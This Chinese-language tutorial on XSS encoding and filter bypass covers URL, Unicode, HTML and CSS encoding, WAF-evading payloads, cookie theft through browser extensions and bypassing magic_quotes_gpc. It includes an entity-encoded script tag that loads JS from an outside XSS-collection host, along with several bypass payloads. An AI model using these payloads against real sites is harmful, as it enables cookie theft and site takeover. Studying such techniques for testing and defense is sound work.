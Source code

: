 # XSS编码与绕过

![](/attackUsers/xss/image/xss-17.png)

---

## 01. URL编码
URL只允许用US-ASCII字符集中可打印的字符(0×20—0x7x)，其中某些字符在HTTP协议里有特殊的意义，所以有些也不能使用。这里有个需要注意的，+加号代表URL编码的空格，%20也是。

URL编码最长见的是在用GET/POST传输时，顺序是把字符改成%+ASCII两位十六进制(先把字符串转成ASCII编码，然后再转成十六进制)。

这个在编码DOM XSS可能会用到，比如我上次说的`<<XSS分类与漏洞挖掘>>`0×04节DOM XSS 在chrome maxthon firefox里对URL里的a=后面的字节进行了URL进行编码，只能在360浏览器里成功，这就是浏览器对URL进行了URL编码。

## 02. unicode编码
Unicode有1114112个码位，也就是说可以分配1114112个字符。Unicode编码的字符以%u为前缀，后面是这个字符的十六进制unicode的码点。

Unicode编码之所以被本文提到，因为有的站点过滤了某些字符串的话，但是发现这个站点在后端验证字符串的时候，识别unicode编码，那我们就可以把我们的攻击代码来改成unicode编码形式，就可以绕过站点的过滤机制了。

## 03. HTML编码
HTML编码的存在就是让他在代码中和显示中分开， 避免错误。他的命名实体：构造是&加上希腊字母，字符编码：构造是&#加十进制、十六进制ASCII码或unicode字符编码，而且浏览器解析的时候会先把html编码解析再进行渲染。但是有个前提就是必须要在“值”里，比如属性src里，但却不能对src进行html编码。不然浏览器无法正常的渲染。

例如：
```html
<img src=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

可以正常显示。

但是当你把src或者img进行html编码就不行了

例如：
```html
img &#115;&#114;&#99;=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

## 04. CSS编码
这个不是太常用。就是/斜杠加上1-6位十六进制

之前在IE5之前都可以用expression来调用js时，这个编码很有用。 现在大多都是用于CSS小图标。

## 05. 假设
网站检测script标签里的src值是否为网站(关键字有`http&https&com&cn&net&&js`)

那我们该怎么绕过呢，看下面的实例代码：

```html
<script
src="&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#120;&#115;&#115;&#56;&#46;&#112;&#119;&#47;&#98;&#103;&#70;&#102;&#66;&#120;&#63;&#49;&#52;&#49;&#57;&#50;&#50;&#57;&#53;&#54;&#53;"></script>

```

打开审查元素——网络，我们成功的看到了我们的JS被加载了

![](/attackUsers/xss/image/xss-37.png)

XSS平台里也获取到了。

## 05. 常见的绕过方式

```html
<sCrIpt>alert(1)</script>

<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>

<scr<script>rip>alalertert</scr</script>rip> (需要利用waf的不完整性)


//后面会讲
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 120, 115, 115, 39, 41))</script>

```

```html
标签属性`="javascript:JS代码"`(只对支持js伪协议的属性起作用)

```

```html
<标签 on事件="js代码">
```

```html
<script
woaini>
alert(123)
</script
woaini>
```

浏览器下会把换行 TAB符当成空格，把后面的字符当做属性来解析

## 06. 插件安全
即使你网站做的再安全，WAF再怎么完整。我利用插件照样可以绕过。插件的有它的特殊性，也是这个特殊性成就了他的安全问题，那就是“跨域”。

** 我在里说下插件是如何渲染到页面的： **
> 用户打开网站——发送数据包——服务器响应并发送Response包——浏览器收到Response包——渲染(先渲染Response包，再渲染插件的代码)

** 也就是说我在插件里写了一段js，那么用户安装后，凡是打开网站。浏览器渲染后，就可以获取用户的cookies。如果攻击者事先有准备，还可以利用csrf攻击。 **这里我们大胆假设下：

** 假设1： **攻击者把XSS代码封装到插件里，上传到浏览器插件下载网站(管理不严，管理员根本不可能一行一行代码看)，上传成功后。用户下载，并安装。那么攻击者就可以坐在电脑前，喝着咖啡，看着不断刷新的xss数据流…

** 假设2： **攻击者拥有dedecms的csrf(可以添加管理员)，后面的和假设1一样。当网站管理员不小心安装或者使用了带有插件浏览器，网站就会被攻击者控制。有些人会问，几率那么小，怎么可能跑到我身上。是不太可能跑到你身上，倒是有可能跑到其他站长身上，当你想想中国站长有多少时，相信你就会明白了

** 假设3： **攻击者拥有某个浏览器插件的XSC漏洞，再结合插件安全问题，就可以实现用户打开某个网站，就会被不知不觉中安装插件，有些人会说，有XSC我就直接执行任意代码了，谁还蛋疼式的去安装插件。如果攻击者想隐蔽式的攻击呢？而且控制电脑获取cookies我想这个应该比直接安装插件更加麻烦吧？当然攻击者也可以两个同时进行。

当然了，也有很多人会说，我安装安全健康绿色无污染的插件不就不怕了吗。

楼主说的十分有理，只不过你忽视了插件本身的安全问题，我之前所说的都是利用插件的特殊性来完成攻击，可是我并没有说插件本身的安全。

这时恐怕又有人质疑了，插件即使不安全，那也需要用户输入特殊的字符串里完成攻击，你这不就是在自己插自己么。

我所说的插件安全问题指的不是这，而是控制插件的数据流。因为插件的安全问题本身就没多大的利用价值，大多数时候都是自己插自己。

假设有一个在线翻译的插件，鼠标滑词，自动翻译。而这个技术就需要利用到AJAX，而AJAX利用的就是厂商提供的API，而API很多时候都在二级域名，安全性相对来说就比较低了。如果控制API了，那么就可以控制API发送给插件的数据流，从而达到攻击。

** 流程图就是下面这样： **
> 黑客发现插件调取的API网站安全漏洞——重写了发送的数据包——插件获取被重写API数据——解析并把恶意代码渲染到页面——攻击成功。

当然了，不止API，有的插件还调用了外部的JS、CSS、iframe(HTML)等，我们也可以控制他们里来完成攻击。

## 07. 绕过 magic_quotes_gpc
** magic_quotes_gpc=ON **是php中的安全设置，开启后会把一些特殊字符进行轮换，比如`'`(单引号)转换为`\'`，`"`(双引号)转换为`\"` ，`\`转换为`\\`

比如：`<script>alert("xss");</script>`会转换为`<script>alert(\"xss\");</script>`,这样我们的xss就不生效了。

针对开启了`magic_quotes_gpc`的网站，我们可以通过javascript中的`String.fromCharCode`方法来绕过，我们可以把`alert("XSS");`转换为
```html

```

